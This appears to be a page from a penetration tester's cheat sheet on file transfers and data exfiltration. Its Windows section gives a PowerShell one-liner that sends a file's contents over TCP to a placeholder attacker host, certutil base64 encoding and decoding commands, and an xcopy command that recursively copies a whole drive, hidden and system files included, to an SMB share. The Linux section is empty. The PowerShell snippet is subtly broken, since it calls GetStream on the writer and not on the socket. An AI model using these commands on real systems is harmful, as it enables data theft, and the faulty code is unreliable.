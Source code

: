 ```yaml
---
layout: default
title: File Transfers
tags:
    - download
    - exfiltration
    - scp
    - smb
    - tftp
    - upload
---
```


# File Transfers
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Linux

---

## Windows
Powershell Send File to Netcat
```shell
$h="<host>";$p="<port>";$data=Get-Content -Path "<file>";$tcp=New-Object System.Net.Sockets.TcpClient($h,$p);$w=New-Object System.IO.StreamWriter($tcp).GetStream();foreach($l in $data){$w.WriteLine($l)};$w.Flush();$w.Close();$tcp.Close();
```

Base 64 Encoding
```shell
certutil -encode <input> <output>
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("<UTF8 string>")) > <b64 output>
```

Base 64 Decoding
```shell
certutil -decode <input> <output>
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<b64 string>")) > <UTF8 output>
```

Exfill files recursively
```shell
xcopy /c /h /r /s /y <source> <smb destination>
```
- e.g. `C:\*`